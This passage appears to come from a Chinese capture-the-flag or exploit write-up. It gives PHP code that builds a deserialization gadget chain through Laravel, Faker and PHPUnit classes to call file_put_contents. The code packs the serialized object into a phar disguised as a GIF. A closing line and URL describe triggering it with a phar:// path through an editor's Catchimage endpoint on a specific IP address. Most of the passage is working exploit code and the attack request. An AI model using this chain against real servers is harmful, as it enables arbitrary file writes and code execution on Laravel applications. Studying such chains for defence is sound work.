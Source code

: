 ```php

namespace PHPUnit\Framework\MockObject\Stub{
	class ReturnCallback{
		function __construct(){
			$this->callback = 'file_put_contents';
		}
	}
}

namespace Faker{
	class ValidGenerator{
		function __construct(){
			$si = new \PHPUnit\Framework\MockObject\Invocation\StaticInvocation();
			$g1 = new \Faker\Generator(array('kingkk' => $si ));
			$g2 = new \Faker\Generator(array("dispatch" => array($g1, "getFormatter")));

			$rc = new \PHPUnit\Framework\MockObject\Stub\ReturnCallback();

			$this->validator = array($rc, "invoke");
			$this->generator = $g2;
			$this->maxRetries = 10000;
		}
	}

	class Generator{
        function __construct($form){
            $this->formatters = $form;
        }
	}

}
namespace{
	$exp = new Illuminate\Broadcasting\PendingBroadcast();
	print_r(urlencode(serialize($exp)));

	// phar
	$p = new Phar('./k.phar', 0);
    $p->startBuffering();
    $p->setStub('GIF89a<?php __HALT_COMPILER(); ?>');
    $p->setMetadata($exp);
    $p->addFromString('1.txt','text');
    $p->stopBuffering();
}
```

然后就是上传一波图片，图片地址在返回的json数据中就能看到。再利用一开始的`file_get_contents`触发反序列化链即可。

```
http://51.158.73.123:8080/server/editor?action=Catchimage&source[]=phar:///var/www/html/upload/image/xxx.gif
```
